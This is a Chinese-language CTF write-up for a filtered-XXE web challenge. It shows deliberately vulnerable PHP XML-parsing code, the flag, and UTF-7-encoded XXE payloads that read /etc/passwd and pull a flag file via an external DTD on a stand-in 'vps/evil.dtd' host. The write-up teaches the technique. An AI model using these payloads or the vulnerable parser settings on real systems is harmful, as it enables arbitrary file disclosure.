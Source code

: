 * 题目名称： baby_XML
* 题目类型： WEB
* 题目难度： 中等
* 出题人： S1mh0
* 考点：有过滤的XXE
* 描述：可扩展标记语言就是最牛逼的！漏洞？没有的事！
* flag：XSCTF{y00000u_r_9o0o0o0o0o0d_4t_XxE}
* Writeup：

源码

```php
<?php
    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
   if(empty($xmlfile))
    {
        echo "need xmlfile to post";
    }
    else
    {
        if (preg_match('/(\<\!DOCTYPE|\<\!ENTITY)/gis', $xmlfile))
        {
            die('not this way, sir');
        }
        if (preg_match('/php|filter|expect|glob|phar|host|encode|decode|conf|\%/is',$xmlfile))
        {
            die("bad word!");
        }
    }
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```
有回显XXE，但是加了过滤，主要考查XXE编码绕过以及含`<>`字符串的文件读取，首先第一个if判断过滤了常规的xml文件格式，可以通过UTF-7或者UTF-16编码转换进行绕过，第二个if禁用了一些常见的协议，让选手老老实实用file和http协议打，并且禁止读php源码

由于flag文件是被`<>`包含住的，因此需要通过CDATA 配合外部DTD文档引入来读取，但是存放flag的位置需要靠读取passwd文件获得，CDATA无法直接读取/etc/passwd文件，需要直接通过DTD外部实体声明去读取，因此做题思路是：

1、利用编码绕过，直接通过DTD外部实体声明去读取/etc/passwd文件，获得flag位置，但是发现无法读取flag；

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE a +AFs							  
	+ADwAIQ-ENTITY b SYSTEM +ACI-file:///etc/passwd+ACI +AD4
+AF0APg
+ADw-x+AD4AJg-b+ADsAPA-/x+AD4-
```

![image-20241020231651560](README.assets/image-20241020231651560.png)

2、利用编码绕过，通过CDATA 配合外部DTD文档引入来读取flag文件

```xml-dtd
<?xml version="1.0" encoding = "utf-7"?>
+ADwAIQ-DOCTYPE root +AFs
+ADwAIQ-ENTITY +ACU start +ACIAPAAhAFs-CDATA+AFsAIgA+
+ADwAIQ-ENTITY +ACU go SYSTEM +ACI-file:///fl4444449g+ACIAPg
+ADwAIQ-ENTITY +ACU end +ACIAXQBdAD4AIgA+
+ADwAIQ-ENTITY +ACU dtd SYSTEM +ACI-http://vps/evil.dtd+ACIAPg +ACU-dtd+ADs
+AF0APg 
+ADw-root+AD4AJg-all+ADsAPA-/root+AD4-
```

evil.dtd：

```dtd
<!ENTITY all "%start;%go;%end;">
```

![image-20241020231840577](README.assets/image-20241020231840577.png)




